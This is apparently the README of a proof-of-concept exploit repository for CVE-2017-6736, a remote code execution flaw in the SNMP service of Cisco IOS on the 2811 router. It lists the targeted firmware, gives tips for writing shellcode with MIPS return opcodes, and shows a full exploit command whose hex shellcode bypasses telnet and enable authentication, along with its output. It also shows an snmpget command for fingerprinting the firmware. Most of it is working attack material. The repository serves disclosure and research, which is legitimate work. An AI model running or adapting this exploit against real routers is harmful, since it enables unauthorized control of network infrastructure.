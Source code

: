 CVE-2017-6736 / cisco-sa-20170629-snmp Cisco IOS remote code execution
===================


This repository contains Proof-Of-Concept code for exploiting remote code execution vulnerability in SNMP service disclosed by Cisco Systems on June 29th 2017 - <https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170629-snmp> 


Description
-------------

RCE exploit code is available for Cisco Integrated Service Router 2811. This exploit is firmware dependent. The latest firmware version is supported:

- Cisco IOS Software, 2800 Software (C2800NM-ADVENTERPRISEK9-M), Version 15.1(4)M12a, RELEASE SOFTWARE (fc1)

ROM Monitor version:

- System Bootstrap, Version 12.4(13r)T, RELEASE SOFTWARE (fc1)


Read-only community string is required to trigger the vulnerability. 



Shellcode
------------

The exploit requires shellcode as HEX input. This repo contains an example shellcode for bypassing authentication in telnet service and in enable prompt. Shellcode to revert changes is also available. If you want to write your own shellcode feel free to do so. Just have two things in mind:

- Don't upset the watchdog by running your code for too long. Call a sleep function once in a while.
- Return execution flow back to SNMP service at the end. You can use last opcodes from the demo shellcode:

```
3c1fbfc4    lui $ra, 0xbfc4
37ff89a8    ori $ra, $ra, 0x89a8
03e00008    jr  $ra
00000000    nop
```  


Usage example
-------------

```
$ sudo python c2800nm-adventerprisek9-mz.151-4.M12a.py 192.168.88.1 public 8fb40250000000003c163e2936d655b026d620000000000002d4a821000000008eb60000000000003c1480003694f000ae96000000000000aea00000000000003c1fbfc437ff89a803e0000800000000
Writing shellcode to 0x8000f000
.
Sent 1 packets.
0x8000f0a4: 8fb40250    lw  $s4, 0x250($sp)
.
Sent 1 packets.
0x8000f0a8: 00000000    nop 
.
Sent 1 packets.
0x8000f0ac: 3c163e29    lui $s6, 0x3e29
.
Sent 1 packets.
0x8000f0b0: 36d655b0    ori $s6, $s6, 0x55b0
```

Notes
-----------

Firmware verson can be read via snmpget command:

```
$ snmpget -v 2c -c public 192.168.88.1 1.3.6.1.2.1.1.1.0

SNMPv2-MIB::sysDescr.0 = STRING: Cisco IOS Software, 2800 Software (C2800NM-ADVENTERPRISEK9-M), Version 15.1(4)M12a, RELEASE SOFTWARE (fc1)
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 1986-2016 by Cisco Systems, Inc.
Compiled Tue 04-Oct-16 03:37 by prod_rel_team
```

Author
------

Artem Kondratenko https://twitter.com/artkond
